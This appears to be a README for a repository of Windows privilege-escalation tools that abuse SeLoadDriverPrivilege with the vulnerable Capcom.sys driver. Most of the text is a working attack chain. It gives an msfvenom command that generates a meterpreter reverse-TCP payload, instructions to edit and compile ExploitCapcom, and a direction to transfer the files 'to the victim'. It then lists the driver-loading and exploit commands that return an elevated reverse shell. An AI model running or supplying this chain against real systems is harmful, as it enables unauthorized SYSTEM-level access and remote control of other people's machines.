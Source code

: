 # SeLoaddriver Privilege Escalation
The files in here will help you to exploit the SeLoaddriver Privilege on your windows systems to help elevate your privileges.
If you do not have the SeLoaddriver privilege enabled, the file EOPLOADDRIVER.exe will enable it for you. 

For more information on this vulnerability visit https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

I have included the compiled versions of the files if anyone is having a hard time compiling it themselves.

If you need to get a elevated shell then you might need to create you own payload to be executed. You can use the
code below as an example:

"msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > exploit.exe"

You will need to compile the ExploitCapcom project because you are required to edit it according to what you want the exploit to do. (i.e: If you need it to run a specific command or execute a specific file)

You can open the project using Visualstudio 2017 or 2019 and locate "TCHAR CommandLine[]" in the .cpp file. Replace it what you want it to do. Example: TCHAR CommandLine[] = TEXT("C:\\test\\exploit.exe");

You may use the compiled version but it has the command set to "C:\\tmp\\exploit.exe" where exploit.exe is the payload created above.

Once this has been compiled you will need to transfer all files to the victim. (Capcom.sys, EOPLOADDRIVER.exe, ExploitCapcom.exe, exploit.exe)

Below are the commands you will need to execute afterwards.

.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\test\capcom.sys (replace "C:\test\capcom.sys" with the path to your Capcom.sys file)

If the above succeeds then you may start a listener on your local machine (If a reverseshell payload is used and make sure to place the payload in the relavent directory used).

Finally run:  .\ExploitCapcom.exe

If it was a reverseshell payload used, you may have got a elevated connection back.

The direct repos for the above codes are:

https://github.com/tandasat/ExploitCapcom

https://github.com/TarlogicSecurity/EoPLoadDriver/


